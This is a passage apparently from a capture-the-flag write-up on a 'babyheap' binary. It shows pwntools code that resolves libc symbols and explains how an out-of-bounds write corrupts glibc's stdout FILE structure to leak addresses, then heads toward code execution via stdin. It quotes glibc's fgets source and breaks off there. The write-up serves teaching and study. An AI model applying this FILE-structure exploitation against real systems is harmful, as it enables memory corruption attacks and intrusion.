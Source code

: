 ```python
bin_sh       = next(libc.search(b"/bin/sh"))
stdout       = libc.sym["_IO_2_1_stdout_"]
stdin        = libc.sym["_IO_2_1_stdin_"]
stdfile_lock = libc.sym["_IO_stdfile_1_lock"]
wide_data    = libc.sym["_IO_wide_data_1"]
io_str_jumps = libc.sym["_IO_str_jumps"]

log.info("LIBC leak: " + hex(leak))
log.info("LIBC base: " + hex(libc.address))
log.info("system@LIBC: " + hex(system))
log.info("/bin/sh: " + hex(bin_sh))
log.info("_IO_2_1_stdout_: " + hex(stdout))
log.info("_IO_2_1_stdin_: " + hex(stdin))
```

In order to find the correct `read_size` that lets us write to the correct index out of bounds (particularly for the second allocation in `create2`), I set a breakpoint on the instruction that executes the `buf[read_size - 1] = 0;` line of code in the `babyheap` function, and checked what address it was writing to. I then just did some math to figure out what `read_size` should be if I wanted to overwrite specifically those fields in the `stdout` file structure.

There are two other things to note:

1. There is an extra `p.recv()` when `REMOTE` is set to true. This was required as the remote server behaved slightly differently to the local one (no clue why).
2. I leak multiple addresses which may not look familiar to you (`_IO_wide_data_1`, `_IO_str_jumps`, etc), but they will all be required later down the line for this exploit to work, so just keep reading.

The next time `puts` is called (when the program prints out the menu for us), we get all of those bytes leaked out to us. We can then just parse the libc address from it. Info leak achieved!

# Getting code execution

At this point, I had just learned that you can fool the program into thinking that the `stdout` file structure is buffered even though it really isn't. This let me output a number of bytes from `stdout->_IO_write_base`. What about the `stdin` file structure though? Can I make the program think that `stdin` is buffered and have it read my input into some arbitrary memory location (perhaps at `_IO_read_base`)?

Let's look at the GLIBC source code again, specifically for `fgets` this time:

```c
// libio/iofgets.c:30

char *
_IO_fgets (char *buf, int n, _IO_FILE *fp)
{
  _IO_size_t count;
  char *result;
  int old_error;
  CHECK_FILE (fp, NULL);
  if (n <= 0)
    return NULL;
  if (__glibc_unlikely (n == 1)) // ## We aren't passing a size of 1 for fgets
    {
      buf[0] = '\0';
      return buf;
    }
  _IO_acquire_lock (fp);
  /* This is very tricky since a file descriptor may be in the
     non-blocking mode. The error flag doesn't mean much in this
     case. We return an error only when there is a new error. */
  old_error = fp->_IO_file_flags & _IO_ERR_SEEN;
  fp->_IO_file_flags &= ~_IO_ERR_SEEN;
```